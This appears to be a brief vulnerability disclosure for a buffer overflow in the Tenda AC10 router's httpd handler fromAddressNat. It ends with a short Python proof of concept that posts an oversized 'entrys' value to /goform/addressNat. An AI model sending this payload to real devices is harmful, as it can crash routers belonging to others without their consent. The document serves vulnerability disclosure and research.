 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromAddressNat

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](8.png)

get value from entrys ,then call sprintf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/addressNat"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'entrys': payload})
``` 
